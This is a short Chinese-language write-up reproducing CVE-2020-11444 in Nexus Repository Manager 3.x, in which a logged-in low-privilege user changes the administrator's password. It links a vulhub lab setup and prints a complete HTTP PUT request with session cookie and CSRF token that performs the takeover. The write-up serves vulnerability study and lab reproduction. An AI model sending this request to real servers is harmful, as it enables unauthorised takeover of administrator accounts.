 # Nexus Repository Manger change-password 低权限修改管理员密码漏洞 CVE-2020-11444

## 漏洞描述

Nexus Repository Manger存在低权限修改管理员密码漏洞，低权限用户发送特定的请求包可以修改管理员账号密码

## 漏洞影响

```
Nexus  3.x OSS / Pro <= 3.21.1
```

## 环境搭建

https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204



## 漏洞复现

漏洞触发需要任意账户权限

![](./images/202202091858261.png)



登录任意用户后修改 NXSESSIONID，发送请求包修改管理员账号密码



```plain
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Origin: http://139.198.174.173:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b37c99-046c-47a9-ba7d-fd4cfa33b7ff
Content-Length: 11

data=123456
```

返回204则修改成功



![](./images/202202091858448.png)